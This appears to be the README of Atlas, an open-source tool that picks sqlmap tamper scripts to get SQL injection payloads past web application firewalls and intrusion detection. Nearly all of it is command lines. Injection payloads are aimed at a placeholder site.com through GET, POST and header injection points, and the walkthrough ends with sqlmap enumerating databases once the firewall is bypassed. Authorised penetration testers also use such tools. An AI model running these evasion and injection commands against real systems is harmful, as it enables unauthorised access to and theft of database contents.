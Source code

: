 Atlas - Quick SQLMap Tamper Suggester (beta v.)
---

__Atlas__ is an open source tool that can suggest sqlmap tampers to bypass WAF/IDS/IPS, the tool is based on returned status code.

![atlas_main](https://i.imgur.com/G2bXF3A.png)


Screen
---
![atlas_run](https://i.imgur.com/I6cXSKd.png)

Installation
---
```
$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py
```

Usage
---
```
$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

injection point (with `%%inject%%`):

get:
```
$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

post:
```
$ python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

headers:
```
$ python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```


tampers concatenation:

```
$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
```

get tampers list:

```
$ python atlas.py -g
```


Example 
---
1. Run SQLMap:
```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```
![sqlmap](https://i.imgur.com/XP39Rqz.png)

```Price_ASC') AND 8716=4837 AND ('yajr'='yajr``` is blocked by WAF/IDS/IPS, now trying with Atlas:
```
$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```
![atlas_succ](https://i.imgur.com/U6qEnXp.png)

At this point:

```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```

